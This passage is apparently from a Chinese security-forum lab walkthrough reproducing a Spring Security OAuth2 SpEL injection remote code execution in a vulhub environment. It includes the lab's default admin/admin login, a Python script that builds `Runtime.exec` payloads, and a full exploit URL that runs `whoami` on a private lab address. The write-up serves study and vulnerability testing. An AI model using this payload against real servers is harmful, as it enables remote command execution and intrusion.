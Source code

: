 访问该url 会进行登录验证

```php
http://192.168.175.209:8080/oauth/authorize?response_type=${233*233}&amp;client_id=acme&amp;scope=openid&amp;redirect_uri=http://test
```

![image-20210521081127941](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-9c2347352912baa4d8bfa098f978cc3ef8ab1702.png)

默认账号密码是

```php
admin
admin
```

登录成功

![image-20210521081210298](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-8e05b710d6d0acacb7cf5d8bb2ec048040606f7e.png)

#### Poc

我们看一下vulhub提供的Poc

```php
#!/usr/bin/env python
message = input('Enter message to encode:')
poc = '${T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(%s)' % ord(message[0])
for ch in message[1:]:
 poc += '.concat(T(java.lang.Character).toString(%s))' % ord(ch)
poc += ')}'
print(poc)
```

这里是java的命令执行

![image-20210521082836766](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-3857552751215e3627cc72bd5396d552d52cad0f.png)

执行一下poc.py

![image-20210521082811068](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-2f542bf6a34fa0cedfb734a59a38ed715e1acb6f.png)

#### 测试RCE

我们执行的命令是`whoami` 把回显放到表达式中

执行一下

```php
http://192.168.175.209:8080/oauth/authorize?response_type=${T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(119).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(109)).concat(T(java.lang.Character).toString(105)))}&amp;client_id=acme&amp;scope=openid&amp;redirect_uri=http://test
```

执行成功

